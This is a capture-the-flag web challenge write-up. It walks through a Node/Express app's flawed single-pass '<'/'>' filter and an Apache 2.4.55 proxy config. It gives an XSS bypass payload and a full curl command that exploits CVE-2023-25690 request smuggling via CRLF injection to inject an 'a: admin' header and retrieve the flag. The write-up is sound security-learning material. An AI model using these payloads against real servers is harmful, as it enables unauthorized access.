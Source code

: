 ![](Pasted%20image%2020250517162525.png)

so we are provided with the source code.

![](Pasted%20image%2020250517162705.png)
hmm.

```dockerfile
COPY flag.txt /ctf/flag.txt
```

so the flag is in a text file, which means we have to find a vulnerability that could lead us to read the file (LFI, RCE etc).


server.js:
```js
// imports
const express = require('express');
const fs = require('fs');

// initializations
const app = express()
const FLAG = fs.readFileSync('flag.txt', { encoding: 'utf8', flag: 'r' }).trim()
const PORT = 3000

// endpoints
app.get('/', async (req, res) => {
    if (req.header('a') && req.header('a') === 'admin') {
        return res.send(FLAG);
    }
    return res.send('Hello '+req.query.name.replace("<","").replace(">","")+'!');
});

// start server
app.listen(PORT, async () => {
    console.log(`Listening on ${PORT}`)
});
```

so we have one main endpoint: `/` and it accepts a `name` parameter and sanitize it by replacing `<` and `>` by nothing. (it removes them). but it's actually vulnerable. why?

the `replace` function searches for the first character with `<` or `>` and change it to nothing. which means if we made a payload like: `<<script>>alert()</script>`. it would work just fine!

## Exploring

Once we open the site:
![](Pasted%20image%2020250517170551.png)

adding the `name` parameter with a value:
![](Pasted%20image%2020250517170623.png)

still nothing. hmm, OHHH! did you see the `httpd.conf` file's content?

httpd.conf:
```http
LoadModule rewrite_module modules/mod_rewrite.so
LoadModule proxy_module modules/mod_proxy.so
LoadModule proxy_http_module modules/mod_proxy_http.so

<VirtualHost *:80>

    ServerName localhost
    DocumentRoot /usr/local/apache2/htdocs

    RewriteEngine on
    RewriteRule "^/name/(.*)" "http://backend:3000/?name=$1" [P]
    ProxyPassReverse "/name/" "http://backend:3000/"

    RequestHeader unset A
    RequestHeader unset a

</VirtualHost>
```

so, instead of `?name=xle0x` we should do `/name/xle0x` right?

![](Pasted%20image%2020250517170927.png)
awesome! let's make sure that our assumption about `replace` function was correct!
![](Pasted%20image%2020250517171937.png)
yes!

now it's time to bypass this:
```
RequestHeader unset A
RequestHeader unset a
```

when we add `a: admin` nothing happens, that's because the proxy unset this header.

so after sometime of searching for CVEs of the running Apache version `2.4.55`. I found this: https://github.com/dhmosfunk/CVE-2023-25690-POC

So, it's a HTTP request smuggling vulnerability with use of XSS and CRLF injection? yep.

after a lot of time I found this valid payload:

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: wonka.chal.cyberjousting.com' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36' \
    $'https://wonka.chal.cyberjousting.com/name/1%20HTTP/1.1%0d%0aa:%20admin%0d%0aHost:%20backend:3000%0d%0a%0d%0aGET%20/'
```

```
GET /name/1%20HTTP/1.1%0d%0aa:%20admin%0d%0aHost:%20backend:3000%0d%0a%0d%0aGET%20/ HTTP/2
Host: wonka.chal.cyberjousting.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
```

![](Pasted%20image%2020250517180734.png)

ezz!